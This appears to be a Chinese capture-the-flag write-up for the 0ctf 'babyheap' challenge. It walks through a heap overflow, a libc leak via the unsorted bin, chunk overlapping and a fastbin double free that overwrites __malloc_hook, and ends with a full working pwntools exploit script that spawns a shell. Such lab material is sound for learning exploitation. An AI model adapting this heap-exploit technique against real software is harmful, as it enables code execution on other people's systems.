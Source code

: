 ```yaml
---
title: 0ctfbabyheap 
tags: [ctf-pwn,exp]
date: 2023-11-04 10:42:00
categories: [ctf-pwn]
excerpt: 一道通过unsorted bin的fd泄露libc基址，然后用fastbin double free getshell的例题
---
```


首先查看保护，发现全开

![](/img/0ctfbabyheap/media/2e4d9896a3691192ef608f635d67cde1.png)

然后题目里告诉了是2.23版本的libc，先用patchelf换一下libc的位置。

![](/img/0ctfbabyheap/media/f4d73666de533ddaed7caef8222b2ccf.png)

然后打开ida查看漏洞点

发现问题出在fill函数里，大小是用户输入的，可以溢出

![](/img/0ctfbabyheap/media/e17462f8199dc6d45437fb7e604f6c4b.png)

溢出的结果是可以控制下一个chunk的prevsz和inuse bit，将下一个chunk free之后可以合并前面的free chunk。如果被合并的部分里有可以uaf的部分，就可以泄露unsorted bin的头节点mainarena+88的地址，然后泄露libc基地址。

然后由于可以修改块的大小，可以通过把chunk从unsorted bin里切分拿出来，造成chunk overlapping，然后就可以绕过题目自带的检查，实施fastbin attack的double free（通过free两个序号不同，但是实际地址相同的chunk），结果就是可以实现伪造chunk中的任意地址写，然后就可以把前面泄露的libc中的one_gadget覆盖到malloc hook地址上，然后下一次malloc的时候就会调用execve(...binsh...)。

具体调试过程如下：

首先malloc几个chunk进去，然后free掉前两个

![](/img/0ctfbabyheap/media/d2c594003ca8f723af882a81bbbe1a68.png)

可以看到大小位0x100的chunk被放到了unsrted bin里，大小为0x80的放在了fastbin里

![](/img/0ctfbabyheap/media/4aa0984ec87d5b2721a1b63d3c0b0c35.png)

然后把0x80的chunk再分配出来，进行溢出到chunk 2

![](/img/0ctfbabyheap/media/b9f09f039c80b6c859a240d87234f2ed.png)

可以看到下一个chunk被改成了inuse为0的状态，prevsize被修改成了0x180，也就是前面两个chunk合并起来的大小

![](/img/0ctfbabyheap/media/85331735315afc1ca327cebb35515deb.png)

如果这时候free掉chunk2，会把最开头的chunk从unsorted bin里拿出来，与其进行合并，然后合并之后的chunk一起被放在unsorted bin里。由于合并的过程把中间的chunk 1给合并进去了，但是它还是被分配的状态，就可以进行chunk内容的输出泄露。

![](/img/0ctfbabyheap/media/be30a52291628b8928b773d513e70516.png)

![](/img/0ctfbabyheap/media/fde0bcc5e16b386bd5e757816bca0c8e.png)

![](/img/0ctfbabyheap/media/35f83a6472e30559fbcaafe98ab0f101.png)

形成了0x280这个大的chunk中嵌套着一个小的处于被分配的chunk的overlapping。而这个chunk处于0x280这个大块的0x100偏移处，想要通过它打印出来fd和bk要把这个unsorted bin切割一下。

![](/img/0ctfbabyheap/media/ebc1e7f864fc9b1007afad94f5096a31.png)

![](/img/0ctfbabyheap/media/21336897cb0da16774853f0e20bbefb0.png)

这样就有了两个处于完全相同地址上的free、malloc状态的chunk。

然后dump malloc状态的块，就会把free状态的chunk的fd bk打印出来，而这个fd bk由于unsorted bin里只有这一个chunk节点，fd bk会指向malloc_state结构体里的unsorted bin数组项，对应main_arena+88的位置，根据这个便宜可以确定libc的基地址。

![](/img/0ctfbabyheap/media/3b3ade9638161cf21a58f60c6558832b.png)

![](/img/0ctfbabyheap/media/4d12325def65c8eab07cc7712b394a95.png)

然后需要进行一个fast bin attack的double free，具体过程为：

free chunk a， free chunk b，free chunk a，malloc chunk a， malloc chunk b， edit chunk a，malloc chunk a，malloc 任意地址的chunk进行edit。

首先，不连续free a两次的原因是会有检查机制，bins会检查当前链表顶部的chunk的地址和现在free的地址是否相同，相同会被视为double free，但如果中间free了其它chunk，则会绕过这个检查。然后malloc a之后编辑它的fd，下次malloc 的时候自己写入的fd指向的地址会被视为一个chunk，然后malloc出来就可以对其进行写入，完成任意地址写。

上述流程在这道题里的表述为：

![](/img/0ctfbabyheap/media/aa97c259cc69d78bd91e0337b0db3725.png)

被写入的地方是malloc hook，如果malloc 时这上面的地址不是0，就会执行malloc hook指向的函数。向这个地址写入一段gadget的地址。

需要说明的点在于one_gadget得到的调用execve binsh的代码

![](/img/0ctfbabyheap/media/530dce4d01190360fdb9f3bcfb99a79c.png)

选用的是第二个0x4526a（这个我不知道为啥大家都用它，其他几个没试过）

然后通过fast bin attack 就执行了execve，拿到shell

测试：

在buuoj上打开这道题，验证了一下exp确实是对的。

![](/img/0ctfbabyheap/media/cf295e9198a01c7f4e082b7ccd607e5a.png)



```python
# Import pwntools
from pwn import *

# First establish the target process and libc file
target = process('./0ctfbabyheap', env={"LD_PRELOAD":"./libc-2.23.so"}) # The ld_preload is used to switch out the libc version we are using
#gdb.attach(target)
elf = ELF('libc-2.23.so')

# Establish the functions to interact with the program
def alloc(size):
	target.recvuntil(b"Command: ")
	target.sendline(b"1")
	target.recvuntil(b"Size: ")
	target.sendline(str(size).encode())

def fill(index, size, content):
	target.recvuntil(b"Command: ")
	target.sendline(b"2")
	target.recvuntil(b"Index: ")
	target.sendline(str(index).encode())
	target.recvuntil(b"Size: ")
	target.sendline(str(size).encode())
	target.recvuntil(b"Content: ")
	target.send(content)

def free(index):
	target.recvuntil(b"Command: ")
	target.sendline(b"3")
	target.recvuntil(b"Index: ")
	target.sendline(str(index).encode())

def dump(index):
	target.recvuntil(b"Command")
	target.sendline(b"4")
	target.recvuntil(b"Index: ")
	target.sendline(str(index).encode())
	target.recvuntil(b"Content: \n")
	content = target.recvline()
	return content

# Make the initial four allocations, and fill them with data
alloc(0xf0)# Chunk 0
alloc(0x70)# Chunk 1
alloc(0xf0)# Chunk 2
alloc(0x30)# Chunk 3
fill(0, 0xf0, "0"*0xf0)
fill(1, 0x70, "1"*0x70)
fill(2, 0xf0, "2"*0xf0)
fill(3, 0x30, "3"*0x30)

# Free the first two
free(0)# Chunk 0
free(1)# Chunk 1

# Allocate new space where chunk 1 used to be, and overflow chunk chunk 2's previous size with 0x180 and the previous in use bit with 0x0 by pushing 0x100
alloc(0x78)# Chunk 0
fill(0, 128, b'4'*0x70 + p64(0x180) + p64(0x100))

# Free the second chunk, which will bring the edge of the heap before the new chunk 0, thus effictively forgetting about Chunk 0
free(2)

# Allocate a new chunk that will move the libc address for main_arena+88 into the content 
alloc(0xf0)# Chunk 1
fill(1, 0xf0, '5'*0xf0)

# Print the contents of chunk 0, and filter out the main_arena+88 infoleak, and calculate the offsets for everything else
leak = u64(dump(0)[0:8])
libc = leak - elf.symbols['__malloc_hook'] - 0x68
system = libc + 0x4526a
malloc_hook = libc + elf.symbols['__malloc_hook']
free_hook = libc + elf.symbols['__free_hook']
fake_chunk = malloc_hook - 0x23
log.info("Leak is:        " + hex(leak))
log.info("System is:      " + hex(system))
log.info("Free hook is:   " + hex(free_hook))
log.info("Malloc hook is: " + hex(malloc_hook))
log.info("Fake chunk is:  " + hex(fake_chunk))
log.info("libc is:        " + hex(libc))

# Free the first chunk to make room for the double free/fastbin duplicaion
free(1)

# Allocate the next four chunks, chunk 5 will directly overlap with chunk 0 and both chunks will have the same pointer
alloc(0x10)# Chunk 1
alloc(0x60)# Chunk 2
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5

# Commence the double free by freeing 5 then 0, and 4 in between to stop a crash
free(5)
free(4)
free(0)

# Allocate 2 chunks, fill in the chunk that was freed twice with the fake chunk, allocate that chunk again to add the fake chunk to the free list
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5
fill(0, 0x60, p64(fake_chunk) + p64(0) + b'y'*0x50)
alloc(0x60)# Chunk 0

# Allocate the fake chunk, and write over the malloc hook with the One Shot Gadget
alloc(0x60)# Chunk 6
fill(6, 0x1b, b'z'*0x13 + p64(system))

# Trigger a Malloc call to trigger the malloc hook, and pop a shell
target.sendline(b'1\n1\n')
target.recvuntil(b"Size: ")

# Drop to an interactive shell to use the shell
target.interactive()
```


